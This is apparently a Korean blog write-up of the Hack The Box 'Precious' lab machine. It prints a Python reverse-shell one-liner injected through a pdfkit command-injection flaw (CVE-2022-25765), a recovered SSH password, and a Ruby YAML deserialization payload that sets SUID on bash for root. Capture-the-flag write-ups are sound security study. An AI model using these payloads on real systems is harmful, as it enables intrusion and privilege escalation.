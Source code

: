 ```yaml
---
title: Hack The Box - Precious
date: 2023-01-22
author: glasses96
categories: [Hack The Box]
tags: [Hack The Box, Precious, Write-up]
pin: true
math: true
mermaid: true
---
```


> **Hack the Box Precious 문제를 풀어 봅시다.**
{: .prompt-info }

---

## Port Scanning
nmap 스캐닝 결과를 아래와 같습니다.
ssh 서비스와 http 서비스가 열려있습니다.
ssh의 계정 정보는 모르기 때문에 http 서비스에 접속해 볼 수 있습니다.

![Nmap-result](/assets/post/13/1.png)

hosts 파일에 `precious.htb`를 등록하면 웹 페이지에 접근할 수 있습니다.

![precious.htb](/assets/post/13/2.png)

----

## Command Injection
Page to PDF 기능을 이용하여 내 서버를 입력하게 되면(10.10.14.55:8000) pdf가 생성되는 것을 볼 수 있습니다.
![PDF 연결](/assets/post/13/3.png)

변환된 pdf를 다운로드를 받을 수 있습니다.
<span style="color:#9999FF">pdfkit v0.8.6</span> 을 사용한 것을 확인할 수 있으며 해당 버전은 Command Injection 취약점이 있는 버전이며 <span style="color:#9999FF">CVE-2022-25765</span>의 취약점이 존재합니다.
![pdfkit version](https://velog.velcdn.com/images/glasses96/post/77e122d4-379e-46e9-9c73-2c538589ab27/image.png)

[pdfkit v0.8.6 PoC](/assets/post/13/4.png) 해당 링크를 통해 PoC를 확인할 수 있습니다.

URL에 `whoami` 명령어를 삽입했을 때 PDF에 결과를 확인할 수 있습니다.
![whoami 명령어 삽입](/assets/post/13/5.png)

![Command Injection result](/assets/post/13/6.png)




## Reverse Shell
Reverse Shell을 연결하기 위해 코드를 작성합니다.
~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.55",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
~~~

해당 코드를 넣게 되면 성공적으로 리버스 쉘을 연결할 수 있습니다.
~~~
http://10.10.14.55:8000/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.55",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
~~~

ruby 계정으로 쉘 연결에 성공했으며 `/home/henry` 디렉토리에서 user flag를 확인할 수 있는데 현재 계정은(ruby)이라서 other 권한은 읽을 수가 없기 떄문에 Flag 파일을 읽을 수 없습니다.

![user.txt](/assets/post/13/7.png)

이것저것 파일을 다 뒤져보다 `/home/ruby/.bundle/config` 파일에서 ssh 계정으로 추측되는 파일을 획득할 수 있습니다.

![ssh 추측](/assets/post/13/8.png)

## SSH Connection
획득한 henry 계정으로 ssh에 연결할 수 있습니다.
~~~
ssh henry@10.10.11.189
Q3c1AqGHtoI0aXAYFH
~~~

![ssh 연결](/assets/post/13/10.png)

해당 계정은 uid, gid(henry)이기 때문에 `user.txt` 파일을 읽을 수 있습니다.

![user.txt](/assets/post/13/11.png)

## Privilige Escalation
`sudo -l` 명령어 입력 시 `/opt/update_dependencies.rb` 파일이 root파일로 실행됨을 알 수 있습니다.

![sudo -l](/assets/post/13/12.png)

`update_dependencies.rb` 파일의 내용은 아래와 같습니다.
~~~rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

~~~

해당 코드에서 `YAML,Load()`를 사용하는데 해당 함수는 역직렬화 취약점이 존재합니다. [YAML 역직렬화 취약점](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) 링크를 통해 취약점의 내용을 확인 할 수 있습니다.

`dependencies.yml` 파일 생성 후 [Payload](/assets/post/13/)를 작성합니다. 파일은 henry 폴더에 존재해야 합니다.
 

~~~yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod +s
         method_id: :resolve
~~~

![작성완료](https://velog.velcdn.com/images/glasses96/post/154e49e0-5bf6-4eba-990c-7d67822dac06/image.png)

`sudo`명령을 이용하여 `/usr/bin/ruby/` `/opt/update_dependencies.rb` 파일을 실행하면 `/bin/bash`에 `setUID`가 설정됩니다.
~~~sh
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
        30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
        29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
        25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
        21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
        20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
        19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
        18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
        17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
        16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
~~~

`/bin/bash -p` 쉘을 실행하게 되면 루트 권한을 획득할 수 있습니다.

~~~
henry@precious:~$ /bin/bash -p
bash-5.1# id
\uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
bash-5.1# 

~~~